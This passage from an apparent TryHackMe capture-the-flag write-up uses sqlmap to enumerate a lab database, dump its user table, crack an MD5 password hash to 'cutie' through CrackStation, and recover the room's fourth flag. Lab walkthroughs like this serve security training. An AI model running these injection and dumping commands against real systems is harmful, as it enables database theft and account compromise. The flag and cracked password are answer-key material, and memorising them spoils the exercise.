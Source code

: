 `sqlmap -r request.txt`
Using sqlmap we were able to enumerate these DBs:


THM_f0und_m3, information_schema, mysql, performance_schema

`sqlmap -r request -D THM_f0und_m3 --tables`
this command will enumerate the tables under the THM_f0und_m3 db

We find 'user, nothing_inside' as tables

`sqlmap -r request -D THM_f0und_m3 -T user --dump`
This will dump all data inside the `user` table

we get an md5 hash: `05f3672ba34409136aa71b8d00070d1b`
we use crackstation and get: `cutie`


---

`sqlmap -r request -D THM_f0und_m3 -T nothing_inside --dump`
This will dump all data inside the `nothing_inside` table

We get the 4th flag: `THM{1nj3c7_l1k3_4_b055}`
